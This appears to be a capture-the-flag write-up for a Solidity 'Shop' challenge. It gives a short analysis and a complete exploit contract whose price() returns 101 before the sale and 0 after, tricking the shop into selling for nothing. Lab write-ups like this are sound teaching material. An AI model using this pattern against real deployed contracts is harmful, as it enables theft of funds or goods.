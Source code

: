 ### Analysis
The crux of this problem is figuring out how to return a different value in between .price() calls without updating contract state.
There are a couple ways to do this, but the simplest is to use another contract's state for the switch decision. In this case, Shop itself has a convenient variable isSold that we can use


### The Exploit

Deploy the solution contract,then call the function of solve:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}

contract ShopSolution {
    Shop shop;

    constructor(address _shop ) {
        shop = Shop(_shop);
    }

    function price() external view returns (uint256) {
        if (!shop.isSold()) {
            return 101;
        }
        return 0;
    }

    function solve() external {
        shop.buy();
    }
}
~~~